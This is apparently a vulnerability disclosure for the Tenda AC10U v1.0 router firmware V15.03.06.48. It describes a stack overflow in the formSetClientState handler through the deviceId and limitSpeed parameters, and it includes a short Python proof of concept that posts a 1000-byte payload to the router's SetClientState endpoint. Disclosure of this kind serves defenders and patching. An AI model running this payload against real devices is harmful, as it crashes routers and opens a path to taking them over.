 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware V15.03.06.48

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.48 firmware has a stack overflow vulnerability in the `formSetClientState` function. The `dev_id, dl_speed, ul_speed` variable receives the `deviceId, limitSpeed, limitSpeedUp` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `deviceId, limitSpeed, limitSpeedUp` can trigger this security vulnerability.

![image-20240313223551133](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313223551133.png)

![image-20240313223536867](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313223536867.png)

![image-20240313223924721](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313223924721.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetClientState"
payload = b"a"*1000

data = {'limitEn':1,"deviceId": payload}
# data = {'limitEn':1,"limitSpeed": payload}
# data = {'limitEn':1,"limitSpeedUp": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313223855498](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313223855498.png)
